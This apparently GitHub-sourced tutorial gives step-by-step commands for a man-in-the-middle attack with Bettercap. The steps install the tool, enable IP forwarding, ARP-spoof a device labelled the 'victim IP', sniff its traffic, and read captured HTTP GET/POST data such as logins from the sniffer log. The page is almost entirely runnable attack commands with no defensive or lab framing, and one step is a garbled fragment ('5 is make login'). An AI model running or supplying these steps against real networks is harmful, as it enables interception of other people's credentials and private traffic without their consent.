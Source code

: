 
✅ 1. **Install Bettercap**
~~~bash
sudo apt update
sudo apt install bettercap
~~~
### ✅ 2. **Enable IP Forwarding**

Temporarily:
~~~bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
~~~
Permanently:
~~~bash
sudo nano /etc/sysctl.conf
~~~

Uncomment or add this line:

~~~ini
net.ipv4.ip_forward=1
~~~
Then apply:
~~~bash
sudo sysctl -p
~~~
### ✅ 3. **Start Bettercap**

Find your network interface:
~~~bash
ip a
~~~
(Example: `wlan0`, `eth0`, etc.)

Run Bettercap:
~~~bash
sudo bettercap -iface wlan0  # replace wlan0 with your interface
~~~
✅ 4. **In the Bettercap Shell**
~~~bash
net.probe on
net.recon on
net.show                              # shows IPs of devices on network
set arp.spoof.targets 192.168.14.18   # victim IP
set arp.spoof.internal true
arp.spoof on
net.sniff on
~~~

5 is make login 

### ✅ 6. **View Captured HTTP Traffic**

From Ubuntu terminal:
~~~bash
tail -f ~/.bettercap.sniffer.log
~~~
You’ll see GET/POST data here (for HTTP, not HTTPS).


